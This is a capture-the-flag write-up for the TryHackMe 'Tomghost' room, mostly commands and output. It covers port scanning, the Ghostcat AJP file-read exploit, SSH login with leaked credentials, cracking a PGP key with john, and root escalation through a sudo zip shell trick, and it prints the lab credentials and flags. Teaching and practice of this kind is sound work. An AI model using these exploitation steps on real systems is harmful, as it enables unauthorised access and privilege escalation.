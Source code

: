 # Tomghost

Starting with basic recon:
```sh
nmap -sV $ip -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 08:19 CEST
Nmap scan report for 10.10.46.67
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got a few services running but I can instantly see an application running on Port `8080` named Tomcat. <br/>
So I would just make a quick browser search for known exploits. <br/>

![grafik](https://github.com/Aryt3/writeups/assets/110562298/8f316966-b846-4017-a809-1160fd813237)

Now I could take a look around the website and try to find something but there seem to be a lot of exploits for Tomcat. <br/>
So this leads me to https://www.exploit-db.com/exploits/48143. <br/>
Using the exploit:
```sh
python2 exploit.py 10.10.46.67 -p 8009 -f WEB-INF/web.xml
Getting resource at ajp13://10.10.46.67:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

After successfully retrieving user creds I try to login:
```sh
ssh skyfuck@$ip       
The authenticity of host '10.10.46.67 (10.10.46.67)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.46.67' (ED25519) to the list of known hosts.
skyfuck@10.10.46.67's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ whoami
skyfuck
```

Taking a look around:
```sh
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Before taking a closer look at those files I want to look around further.
```sh
skyfuck@ubuntu:~$ ls /home/
merlin  skyfuck
skyfuck@ubuntu:~$ ls /home/merlin
user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

Seems like we got our first flag. <br/>
The next thing would be to escalate priviledges.
```sh
skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
```

Now this didn't work, I could look around more but my guess is that I have to use the 2 files from earlier. <br/>
Copying the files to my local machine:
```sh
scp skyfuck@$ip:/home/skyfuck/* .                               
skyfuck@10.10.46.67's password: 
credential.pgp                                                                          100%  394     2.7KB/s   00:00    
tryhackme.asc                                                                           100% 5144    34.9KB/s   00:00
```

After some research I found a way to use john to bruteforce the .gpg file.
```sh
└─# gpg2john tryhackme.asc > abc.gpg

File tryhackme.asc
                                                                                                                    
└─# ls
abc.gpg  credential.pgp  tryhackme.asc

└─# cat abc.gpg       
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

└─# john --wordlist=Desktop/rockyou.txt abc.gpg            
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
No password hashes left to crack (see FAQ)

└─# john --show abc.gpg                        
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left

└─# gpg --import tryhackme.asc      
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(root㉿kali)-[/home/kali/tryhackme/tomghost]
└─# gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j   
```

Like this I was able to get the password for user merlin, so now I only need to switch to this user.
```sh
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

The only thing left now is priv esc so let's see what we got elevated permissions for.
```sh
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So seeing we can execute the binary zip as root we can take a look at gtfobins. <br/>
Here we find several ways to exploit this binary: https://gtfobins.github.io/gtfobins/zip/.
```sh
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

Getting the last flag:
```sh
# cd /root/
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
